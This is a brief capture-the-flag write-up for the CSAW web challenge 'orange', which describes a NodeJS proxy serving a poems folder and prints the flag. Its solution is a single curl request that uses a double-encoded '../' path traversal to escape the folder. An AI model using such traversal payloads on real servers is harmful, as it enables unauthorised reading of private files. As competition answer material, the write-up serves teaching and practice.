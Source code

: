 # orange
## Author

## Points
100
## Category
Web
## Description
http://web.chal.csaw.io:7311/?path=orange.txt
I wrote a little proxy program in NodeJS for my poems folder.
Everyone wants to read `flag.txt` but I like it too much to share.
## Flag
`flag{thank_you_based_orange_for_this_ctf_challenge}%`
## Solution
`curl 'http://web.chal.csaw.io:7311/?path=%252e%252e/'`
